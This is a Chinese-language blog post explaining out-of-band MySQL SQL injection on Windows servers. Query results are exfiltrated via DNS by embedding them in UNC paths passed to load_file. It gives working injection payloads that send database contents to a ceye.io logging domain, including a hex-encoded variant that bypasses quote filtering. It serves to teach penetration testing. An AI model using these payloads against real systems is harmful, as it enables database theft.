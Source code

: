 ```yaml
---
title: OOB注入(DNS外传)
date: 2018-07-03 03:28:00 Z
categories:
- technology
tags:
- mysql
- dns
---
```




#关于mysql OOB注入的研究
## 应用场景：


 1.注入点无回显，只能靠盲注，但盲注太慢又不想等 =_=.
 2.mysql （Mysql版本>=5.5.53 ）开启文件导入导出
   可以用该语句判断`show global variables like '%secure%';`
           如果secure_file_priv值为null,则未开启，如果为空，则开启；如果为目录，说明只能导入导出该文件夹下内容。
 3.目标是windows系统（UNC路径） 基本利用语句：
'union select 1,load_file(concat('\\\\',(database()),'.g8vbmp.ceye.io\\abc')),3;'
----
##为什么要这样写？：
  1.在windows下，可以使用以下语句来访问UNC路径，即请求网络上的资源（主要在局域网中）**\\server\\resource**  又因为'\'为转义字符，需要重复输入达到转义自身的目的。***'\\\\' -->'\\'***
  2.load_file()函数可以访问计算机上的资源，也可以请求UNC路径，如果将需要查询的数据拼接到UNC路径当中，那么数据可以凭借服务器对特定资源的请求而被外带出去。
  3.既然数据已经有了外传的途径，那么只需在包含了数据的请求传输途中做手脚即可。服务器通信的基础是IP,而DNS提供了域名->IP的解析服务，我们将数据拼接在了域名中，DNS服务器势必就会接触到数据，所以数据外传的关键就是DNS。架设一台我们可控的DNS服务器并监听记录下传来的请求就能获取数据。
     附图一张，简述原理。
![Image.jpg](https://i.loli.net/2018/07/09/5b43474f61f4f.jpg)
####   PS:此处假设有3个字段，2为输出点，g8......为ceye.io申请的域名，database()处即为需要外传的查询语句。
#### PSS:很奇怪的是，version()可以外传，但user()却不能，一张包含title,content字段的表，只有title可以外传，content同样不行。
     ----
     经过摸索，初步得出结论，外传的数据中如果含有空格或特殊字符则无法外传。可以考虑hex。
     测试语句：
'''
1.union select 1,load_file(concat("\\\\",(select hex(content) from pentest.news limit 1,1),'.g8vbmp.ceye.io\\abc')),3
2.id =(case when (1=1) then (select load_file(concat('\\\\',(select database()),'.g8vbmp.ceye.io\\qw'))) else 1*(select 1 from dual union select 2 from dual) end);'

可以绕过单双引号过滤的语句：
id =11 union select 1,load_file(concat(0x5c5c,(select hex(content) from pentest.news limit 1,1),0x2e6675636b6766772e636579652e696f5c5c61626378)),3;

'''
奇怪的是，这些语句只能用一次，第二次再使用就失效了